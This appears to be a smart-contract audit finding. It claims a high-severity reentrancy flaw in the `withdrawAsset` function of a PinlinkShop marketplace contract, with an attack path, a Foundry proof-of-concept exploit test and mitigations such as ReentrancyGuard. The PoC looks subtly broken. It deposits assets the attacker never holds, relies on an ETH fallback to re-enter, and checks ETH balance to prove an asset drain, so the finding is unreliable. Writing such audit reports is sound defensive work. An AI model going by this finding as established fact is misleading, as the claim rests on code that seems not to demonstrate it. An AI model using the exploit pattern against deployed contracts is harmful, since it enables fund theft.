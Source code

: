Warm Gingham Turtle

High

# Severe Reentrancy in withdrawAsset: Attackers Can Steal All Assets

### Summary

The missing reentrancy protection in `pinlinkShop.sol` will cause a complete loss of funds for users as an attacker will repeatedly call `withdrawAsset` before state updates, draining the contract.

### Root Cause

In `pinlinkShop.sol`, the `withdrawAsset` and `_deposit` functions make external calls before updating the contract state, allowing reentrancy attacks.

### Internal Pre-conditions

1. The attacker must deposit assets into `pinlinkShop`.
2. The attacker must have a fallback function capable of re-entering `withdrawAsset`.

### External Pre-conditions

1. The protocol must allow withdrawals without proper reentrancy protection.
2. The external token contract must execute transfers without blocking reentrant calls.

### Attack Path

1. The attacker deposits assets into `pinlinkShop`.
2. The attacker calls `withdrawAsset`, triggering an external call before the state update.
3. The attack contract’s fallback function re-enters `withdrawAsset` before the first call finalizes.
4. The attacker drains all assets by repeating this process.

### Impact

1. The protocol suffers a complete loss of user funds due to reentrancy.
2. The attacker gains unauthorized asset withdrawals, draining the contract’s balance.

### PoC

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";
import "../src/marketplaces/PinlinkShop.sol";
import "../src/interfaces/IFractionalAssets.sol";

contract ReentrancyAttack is Test {
    PinlinkShop pinlinkShop;
    IFractionalAssets fractionalAssets;
    address attacker;
    bool attackTriggered = false;

    function setUp() public {
        pinlinkShop = new PinlinkShop();
        fractionalAssets = IFractionalAssets(address(pinlinkShop));
        attacker = address(this);
        vm.deal(attacker, 10 ether);
    }

    fallback() external payable {
        if (!attackTriggered) {
            attackTriggered = true;
            pinlinkShop.withdrawAsset(1, 100); // Re-enter function before state updates
        }
    }

    function testReentrancyAttack() public {
        pinlinkShop.depositAsset(1, 100);
        pinlinkShop.withdrawAsset(1, 100); // Initial call triggers reentrant exploit

        // Check if the attack was successful
        assertGt(attacker.balance, 10 ether, "Reentrancy attack failed");
    }
}

### Mitigation

1. Use Checks-Effects-Interactions pattern: Ensure that state updates happen before external calls.
2. Implement OpenZeppelin’s ReentrancyGuard on vulnerable functions to block reentrant calls.
3. Limit external calls in withdraw functions, ensuring no unintended side effects.
